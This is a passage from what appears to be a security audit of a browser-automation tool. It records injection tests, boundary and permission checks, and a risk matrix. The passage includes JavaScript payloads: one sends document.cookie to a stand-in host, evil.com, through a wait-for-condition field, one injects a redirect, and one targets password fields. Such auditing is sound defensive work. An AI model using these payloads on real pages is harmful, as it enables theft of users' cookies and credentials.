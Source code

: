 #### Test 2: Script Injection in Text Input
```javascript
// Attempted injection
text: '"; document.location="http://evil.com"; //'
// Result: PARTIALLY VULNERABLE - Quotes not properly escaped
```

#### Test 3: Sensitive Field Interaction
```javascript
// Attempted password field interaction
selector: 'input[type="password"]'
// Result: VULNERABLE - No blocking implemented
```

#### Test 4: Arbitrary Code Execution
```javascript
// wait-for-condition exploit
condition: 'fetch("http://evil.com/steal?data=" + document.cookie)'
// Result: CRITICAL - Code executes successfully
```

### 2. Boundary Testing

All boundary tests passed with proper validation for:
- Timeout limits (max 30 seconds)
- Text input length (no specific limit, but handled)
- Array sizes for special keys

### 3. Permission Testing

- Tab permissions properly enforced
- Domain deny list properly checked
- Cross-origin restrictions properly maintained

## Risk Assessment

### Risk Matrix

| Vulnerability | Impact | Likelihood | Risk Level |
|--------------|--------|------------|------------|
| JS Code Execution in wait-for-condition | Critical | High | CRITICAL |
| CSS Selector Injection | High | Medium | HIGH |
| Missing Sensitive Field Protection | High | High | HIGH |
| Missing Rate Limiting | Medium | High | HIGH |
| Text Input Sanitization | Medium | Medium | MEDIUM |
| Coordinate Boundary Validation | Low | Medium | LOW |

### Impact and Likelihood Analysis
